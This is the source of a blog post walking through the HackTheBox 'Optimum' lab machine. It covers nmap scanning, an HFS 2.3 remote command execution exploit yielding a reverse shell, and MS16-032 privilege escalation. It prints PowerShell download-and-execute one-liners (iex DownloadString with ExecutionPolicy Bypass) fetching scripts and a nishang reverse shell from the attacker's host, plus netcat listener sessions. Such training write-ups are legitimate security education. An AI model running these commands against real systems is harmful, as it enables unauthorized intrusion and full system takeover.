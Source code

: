 ```yaml
---
layout: post
title: "HackTheBox - Optimum"
description: "Walkthrough of Optimum box on Hackthebox."
thumb_image: "documentation/optimumthumb.png"
tags: [ hackthebox ]
---
```


{% include image.html path="documentation/optimum.webp"
path-detail="documentation/optimum.webp"
alt="HTB Optimum" %}

## HTB - Optimum

IP - 10.10.10.8

### Overview

This box was an easy level windows box on HTB created by [ch4p](https://www.hackthebox.eu/home/users/profile/1), it started with gaining user shell via a RCE exploit in the `HFS server` that is running on port 80. In post enumeration, we use `Sherlock` that finds a local privesc exploit `MS16-32`, we use it’s poc script present in `Empire` to get a shell as `NT Authority\System`.

### Enumeration

As always let’s start off with nmap script nmap -sC for default scripts ~~Alright, if it isn’t obvious yet I am a IPPSEC fanboi.~~ Aight, firing up nmap to scan all open ports on the box.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Optimum]
└──╼ $sudo nmap -sC -sV -o nmap/initial 10.10.10.8
{% endhighlight %} 
And here is our nmap result
{% highlight bash %}
# Nmap 7.80 scan initiated Wed Nov  4 01:33:16 2020 as: nmap -sC -sV -o nmap/initial 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.081s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  4 01:33:42 2020 -- 1 IP address (1 host up) scanned in 26.12 seconds
{% endhighlight %}

We only have one port open, so let’s start enumerating it.

#### Foothold

Let’s start enumerating by looking at webpage of the `HttpFileServer`. 
{% include image.html path="documentation/Optimumweb.webp"
path-detail="documentation/Optimumweb.webp"
alt="HTB Optimum" %}

Hovering over the link in bottom left corner confirms that it is `Rejetto HttpFileServer 2.3`, so let’s look for it’s exploits.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Optimum]
└──╼ $searchsploit hfs
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Apple Mac OSX 10.4.8 - DMG HFS+ DO_HFS_TRUNCATE Denial of Service                                    | osx/dos/29454.txt
Apple Mac OSX 10.6 - HFS FileSystem (Denial of Service)                                              | osx/dos/12375.c
Apple Mac OSX 10.6.x - HFS Subsystem Information Disclosure                                          | osx/local/35488.c
Apple Mac OSX xnu 1228.x - 'hfs-fcntl' Kernel Privilege Escalation                                   | osx/local/8266.txt
FHFS - FTP/HTTP File Server 2.1.2 Remote Command Execution                                           | windows/remote/37985.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                          | multiple/remote/48569.py
Linux Kernel 2.6.x - SquashFS Double-Free Denial of Service                                          | linux/dos/28895.txt
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)                               | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities                                    | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                       | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                  | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                  | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                             | windows/webapps/34852.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
{% endhighlight %} 

And we get one python RCE exploit, `windows/remote/39161.py`.

### Getting User

On reading the exploit script, the comments had the instructions that, we will have to host a `nc.exe` so that it can be used by the exploit to give a reverse shell and change our `Lhost IP address` and `Port Number` in the exploit script to get a reverse shell.

After modifying the script, let’s start a listner using `rlwrap nc -lvnp 9889` and host the netcat binary using python3 http server.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Optimum]
└──╼ $sudo python3 -m http.server 80
{% endhighlight %} 

Time to run the exploit.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Optimum]
└──╼ $python 39161.py 10.10.10.8 80
{% endhighlight %} 

Looking at our netcat server and yes we got our shell.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Optimum]
└──╼ $rlwrap nc -lvnp 9889
listening on [any] 9889 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.8] 49188
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
{% endhighlight %} 

The exploit workflow will be like this. 
{% include image.html path="documentation/Optimumuser.gif"
path-detail="documentation/Optimumuser.gif"
alt="HTB Optimum" %}

### Getting Root

In post enumeration, running [Sherlock](https://github.com/rasta-mouse/Sherlock) to find any privilege escalation exploit. _Also consider trying watson for this enumeration, I used Sherlock because i don’t have a windows system to build Watson’s binary._

{% highlight bash %}
C:\Users\kostas\Desktop>@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.33:8000/Sherlock.ps1'))"
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.33:8000/Sherlock.ps1'))"

[REDACTED]
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable
[REDACTED]
{% endhighlight %} 

Luckily [Empire](https://github.com/EmpireProject/Empire) has a exploit configured for this CVE, [Invoke-MS16032](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1), we add the following command to download and execute our powershell revshell exploit from nishang in the exploit and now we are ready to root the box[Get shell as system].

{% highlight bash %}
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.11:8000/Invoke-PowerShellTcp.ps1')
{% endhighlight %} 

Hosting our nishang reverse shell via `python3 -m http.server 8000` and running the exploit.

{% highlight bash %}
C:\Users\kostas\Desktop>@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.33:8000/Invoke-MS16032.ps1'))"
...
{% endhighlight %} 

Looking at our shell and yep we got as `NT Authority/System`.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Optimum_Rooted]
└──╼ $rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.8] 49194
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
{% endhighlight %} 

The privesc exploit workflow will be like this. 
{% include image.html path="documentation/Optimumroot.gif"
path-detail="documentation/Optimumroot.gif"
alt="HTB Optimum" %}

###### Hope you learned something new, if you face any issues / have any query, feel free to contact me on social media.